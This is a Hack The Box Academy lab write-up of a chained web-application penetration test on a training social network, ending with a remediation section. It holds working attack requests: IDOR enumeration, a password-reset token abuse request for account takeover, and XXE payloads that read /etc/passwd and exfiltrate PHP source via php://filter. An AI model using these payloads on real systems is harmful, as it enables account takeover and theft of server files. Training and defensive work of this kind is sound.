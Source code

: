 # Social Networking Application – Penetration Test Skill Assessment

**Author:** Jordan Davis  
**Platform:** Hack The Box Academy  
**Scenario:** Vulnerability Assessment of a Social Networking Application

---

## 🧠 Overview
This assessment simulated a **web application penetration test** against the latest build of a vulnerable social networking application.  
The objective was to enumerate, identify, and exploit multiple vulnerabilities to ultimately retrieve the final flag.

The engagement demonstrated how a chain of seemingly simple vulnerabilities — **IDOR, broken access control, insecure password reset, privilege escalation, and XXE injection** — can be combined into a full compromise.

---

## 🔑 Key Concepts
- Insecure Direct Object Reference (**IDOR**)  
- Broken Access Control  
- Burp Suite Intruder (parameter fuzzing)  
- Password Reset Token Abuse → Account Takeover  
- Privilege Escalation via Admin Account  
- XML External Entity (**XXE**) Injection  
- `php://filter` Wrapper Exploitation  

---

## 🛠️ Tools & Techniques
- **Burp Suite** (Intruder, Repeater, Proxy)  
- **Custom XML Payloads** for XXE exploitation  
- **Base64 decoding** for source code exfiltration  
- **Parameter fuzzing & token manipulation**  

---

## 📝 Walkthrough / Write-Up

### **Stage 1 – Initial Exploration**
Authenticated with provided test credentials. Observed the following request:

```
GET /api.php/user/74 HTTP/1.1
Cookie: PHPSESSID=...; uid=74
```

Response contained JSON user profile data. The predictable `uid` parameter suggested possible **IDOR**.

---

### **Stage 2 – IDOR Enumeration**
Used **Burp Intruder** to fuzz the `uid` parameter (1–100).  
Confirmed sensitive profile data exposure across users.

![Password Reset Abuse](images/token-abuse.png)


```
{
  "uid": "88",
  "username": "e.hagen",
  "full_name": "Eddie Hagen",
  "company": "Murphy - Hansen"
}
```

✅ **Impact:** Any authenticated user could enumerate all other users.

---

### **Stage 3 – Password Reset Token Abuse**
Discovered endpoint:
```
GET /api.php/token/{uid}
```
Returned valid password reset tokens for all users.  
Exploited by crafting reset requests using GET instead of the default POST:

```
GET /reset.php?uid=1&token=<stolen_token>&password=password
```

Result: Arbitrary **account takeover**.  

![Admin Enumeration](images/admin-enum.png)


✅ Confirmed by resetting multiple accounts.

---

### **Stage 4 – Privilege Escalation**
During enumeration, identified admin account:

```
{"uid":"52","username":"a.corrales","full_name":"Amor Corrales","company":"Administrator"}
```

Reset password for UID 52 via token abuse. Logged in as **Administrator**, unlocking privileged functionality (XML event creation).


✅ **Impact:** Full administrative access.

---

### **Stage 5 – XXE Injection**
The `/addEvent.php` endpoint accepted XML:

```xml
<root>
  <name>test</name>
  <details>test</details>
  <date>2025-10-10</date>
</root>
```

Reflected `name` field made it ideal for injection.

**XXE Payload:**
```xml
<!DOCTYPE form [ <!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<root>
  <name>&file;</name>
  <details>test</details>
  <date>2025-10-10</date>
</root>
```

Result: Retrieved `/etc/passwd`. Confirmed **XXE file read**.

---

### **Stage 6 – Flag Retrieval via php://filter**
Direct `.php` reads failed. Switched to `php://filter` for base64 exfiltration:

```xml
<!DOCTYPE form [
<!ENTITY file SYSTEM "php://filter/convert.base64-encode/resource=/flag.php"> ]>
<root>
  <name>&file;</name>
  <details>test</details>
  <date>2025-10-10</date>
</root>
```

![XXE Exploit](images/xxe-exploit.png)

Response returned base64-encoded file contents.  
Decoded locally → retrieved flag. ✅

---

## 🧱 Challenges Faced
- Wasted time fuzzing non-matching payloads.  
- Misjudged filter logic before pivoting to `php://filter`.  
- Token handling required precise request crafting.  

---

## 🛡️ Defense & Remediation

### 🔒 Access Control & IDOR
- Enforce server-side checks restricting data to owner.
- Replace sequential IDs with opaque identifiers (UUIDs).

### 🔑 Password Reset Security
- Tokens must be unpredictable, session-bound, and short-lived.
- Validate rightful ownership before allowing resets.

### 🧑‍💻 Privilege Separation
- Implement strict RBAC controls.
- Audit and restrict administrative endpoints.

### 🛡️ XXE Mitigation
- Disable external entity parsing in XML processors.
- Prefer JSON over XML for data exchange.
- Validate and sanitize all user-supplied input.

---

## 📊 Impact
- **Sensitive data exposure** (IDOR)
- **Arbitrary account takeover** (reset token abuse)
- **Full administrative compromise**
- **Arbitrary file read & source code disclosure**
- **Flag retrieval via XXE exploitation**

---

## ✅ Final Thoughts
This assessment highlighted how **low-to-medium severity issues can chain into complete compromise**:  
- IDOR → Account Takeover  
- Token Abuse → Admin Privileges  
- Admin Access → XXE Exploitation  
- XXE → Sensitive File Disclosure + Flag

This mirrors real-world penetration tests, where multiple misconfigurations compound into high-impact exploitation.

---

## 🔗 Author & Profiles
- **Author:** Jordan Davis  
- [GitHub Profile](https://github.com/jd-cybersec)  
- [LinkedIn Profile](https://www.linkedin.com/in/jordan-davis47/)
